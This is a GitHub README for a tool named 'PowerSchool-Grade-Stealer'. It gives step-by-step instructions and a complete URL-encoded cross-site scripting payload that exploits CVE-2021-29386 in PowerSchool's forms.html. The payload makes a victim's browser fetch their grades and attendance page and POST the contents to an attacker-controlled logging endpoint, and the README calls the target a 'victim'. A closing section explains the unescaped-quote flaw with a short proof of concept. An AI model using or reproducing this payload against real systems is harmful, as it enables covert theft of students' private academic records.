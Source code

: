 # PowerSchool-Grade-Stealer

The script in this repository generates a link for the victim to click on, but it only works on macOS and Linux (if you remove the pbcopy command). A link can be created manually by doing the following:

1. Set up an endpoint URL that logs POST requests to it (can be set up at [Pipedream](https://pipedream.com) by creating an event source).
2. In the following text, replace the text in brackets (and the brackets themselves) with the corresponding information that is described in the brackets:

**[the base URL of the website where PowerSchool is installed]**/guardian/forms.html?sharetype=%22%3Bfunction%20makeHttpObject()%7Btry%7Breturn%20new%20XMLHttpRequest()%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Msxml2.XMLHTTP%22)%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Microsoft.XMLHTTP%22)%7Dcatch(error)%7B%7Dthrow%20new%20Error(%22Could%20not%20create%20HTTP%20request%20object.%22)%3B%7Dvar%20request%3DmakeHttpObject()%3Brequest.open(%22GET%22%2C%22[**the base URL of the website where PowerSchool is installed]**/guardian/home.html%22%2Ctrue)%3Brequest.send(null)%3Brequest.onreadystatechange%3Dfunction()%7Bif(request.readyState%3D%3D4)console.log(request.responseText)%7D%3B%0A(function()%7B%0A%20%20%20%20var%20oldLog%20%3D%20console.log%3B%0A%20%20%20%20console.log%20%3D%20function%20(message)%20%7B%0A%20%20%20%20%20%20%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20%20%20%20%20%20%20xhttp.open(%22POST%22%2C%20%22[**the endpoint's URL]**%22%2C%20true)%3B%0A%20%20%20%20%20%20%20%20xhttp.send(message)%3B%0A%20%20%20%20%20%20%20%20oldLog.apply(console%2C%20arguments)%3B%0A%20%20%20%20%7D%3B%0A%7D)()%3B%0Adocument.body.innerHTML%20=%20%27%27%2F%2F

Note: This only sends the averages of each course and the absences/tardies.

# The Vulnerability

The vulnerability is present on line 1,042 in forms.html:

`sharetype = "whatever is after sharetype=",`

When quotes are passed after sharetype=, they are not escaped. So a quote may be able to close the string and then a semicolon following that quote may be able to end the whole variable assignment statement. JavaScript code can be appended afterwards and then be followed by a comment operator, "//", to make the interpreter ignore the quote and comma that follows: 

/guardian/forms.html?sharetype=";alert()//

In the source code, this appears as:

`sharetype = "";alert()//",`

This bypasses PowerSchool's cross-site scripting mitigation by not using angle brackets. The vulnerability was assigned CVE-2021-29386.
